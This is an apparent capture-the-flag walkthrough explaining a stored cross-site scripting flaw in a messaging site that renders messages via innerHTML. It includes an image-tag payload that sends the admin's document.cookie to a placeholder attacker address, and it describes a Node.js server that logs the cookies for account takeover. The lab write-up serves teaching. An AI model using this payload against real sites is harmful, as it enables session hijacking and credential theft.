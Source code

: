## Walkthrough
Sites that allow users to send each other messages are sometimes vulnerable to cross site scripting attacks. These attacks inject a script into a victim's browser using a message. This script often forces the victim's browser to navigate to a malicious website or to send the victim's personal information to the attacker.

One of the signs that this site is vulnerable to a xss attack is by looking at how it displays messages. By checking the "View Messages" page, you can see that it calls the populateMessages function in message.js after loading. The populateMessages function uses an ajax GET request with the user's username and password (from cookies). When the result is a 201, it adds the messages' subjects to the sidebar. Clicking the subject will cause the message to load in the main part of the screen. You can tell that this is vulnerable to a xss attack because it uses <code>.innerHTML = message</code> to display the messages. This method simply inserts the message between the tags of an element, and there are no checks for if the message is HTML that will execute. For example, an element <code>&lt;p>&lt;/p></code> that calls <code>el.innerHTML = '&lt;img src="http://www.vanderbilt.edu/asset/i/facebook-vanderbilt.jpg" onload="alert(1)" />'</code> will show an alert with the message <code>1</code>.

Since you are able to message the admin, you can send them a message <code>&lt;img src="http://www.vanderbilt.edu/asset/i/facebook-vanderbilt.jpg" onload=window.location="http://your_ip?cookie=" + document.cookie /></code>. When the admin opens the message, their browser will be directed to the site that you specified. You will have already set up this site to save the cookie parameter of the query of any requests that it receives. One example is to set up a very simple Node.js server (like this one) that has a GET on <code>/</code> and will save the <code>cookie</code> query parameter to a file.

Once the admin opens the message you now have the admin's cookie. You also have the admin's username and password since we know that the username and password must be in the cookies from the populateMessages function. You are able to login as the admin and view the flag.
